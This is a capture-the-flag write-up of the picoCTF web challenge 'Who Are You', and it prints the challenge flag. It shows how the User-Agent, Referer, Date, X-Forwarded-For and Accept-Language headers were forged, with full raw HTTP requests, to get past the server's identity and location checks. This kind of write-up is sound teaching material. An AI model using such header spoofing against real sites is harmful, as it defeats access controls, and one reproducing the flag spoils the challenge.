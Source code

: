 # Who Are You

## Description

Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:36622/

## Hints

It ain't much, but it's an RFC https://tools.ietf.org/html/rfc2616

## Walkthrough

The homepage for this CTF tells us that only people who use the official "Pico Browser" can use the website.

> Only people who use the official PicoBrowser are allowed on this site!

We can spoof our browser by modifying the [User-Agent header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent "Mozilla developer pages on User-Agent header"), which is the HTTP header sent by our browser when making requests to servers. This header can be changed by using a browser extension such as [User-Agent Switcher and Manager](https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/ "Firefox extension for modifying User-Agent header"), but we're better off using an application like BurpSuite for this challenge.

After we intercept a request to the homepage of the CTF we can edit the User-Agent header from our browser to "PicoBrowser", like so:

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
```

Once we send the request, the homepage message will change to:

> I don&#39;t trust users visiting from another site.

We can add the ["Referer" header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer "Mozilla Developer pages on Referer header") to our next request to trick the server into thinking the request originated from the webpage itself. To do this, we'll set the "Referer" header value to "mercury.picoctf.net:36622".

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Referer: mercury.picoctf.net:36622
Priority: u=0, i
```

Once we've sent the above request, we'll see the following message displayed on the homepage. 

> Sorry, this site only worked in 2018.


In our next HTTP request we'll add the ["Date" header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Date "Mozilla Developer pages for Date header") and set the date for October 15th, 2018. 

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Referer: mercury.picoctf.net:36622
Date: Tue, 15 Oct 2018 14:30:00 GMT
Priority: u=0, i
```

After we've sent our request to the server with a modified Date header, we'll see the following message on the homepage.

> This website is only for people from Sweden.

If we want our HTTP requests to appear as if they're coming from another country we can use the ["X-Forwarded-For" header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For "Mozilla Developer page for X-Forwarded-For header"). We can also look up a countries designated IP block by using a website like [ip2location](https://lite.ip2location.com/ip-address-ranges-by-country "Ip2location Website: Country List"). After clicking on [Sweden's IP block](https://lite.ip2location.com/sweden-ip-address-ranges "IP2location website: Sweden IP Address Block") we can find an IP address to use in our request, such as ```102.177.146.0```.

Our new HTTP request should look similar to the following request.

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:39114
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: mercury.picoctf.net:39114
Date: Tue, 15 Oct 2018 14:30:00 GMT
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 102.177.146.0
DNT: 1
Sec-GPC: 1
Priority: u=0, i
```

Once we've sent our new HTTP request, the homepage will display a new message wondering why we're in Sweden but don't speak Swedish.

> You&#39;re in Sweden but you don&#39;t speak Swedish?

We've been caught! We used the X-Forwarded-For header to make it seem as though we were located in Sweden but we forgot to change the [Accept-Language header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Language "Mozilla Developer pages for Accept-Language HTTP header") from English to Swedish.

The [Accept-Language header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Language "Mozilla Developer pages for Accept-Language HTTP header") tells the server our preferred language. So on our next request we'll include it with the value for Swedish, which is ```sv-SE, sv;q=0.9```.
```
GET / HTTP/1.1
Host: mercury.picoctf.net:39114
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: sv-SE, sv;q=0.9, en;q=0.8
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: mercury.picoctf.net:39114
Date: Tue, 15 Oct 2018 14:30:00 GMT
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 102.177.146.0
DNT: 1
Sec-GPC: 1
Priority: u=0, i
```

```
What can I say except, you are welcome

picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_20ace0e4}
```
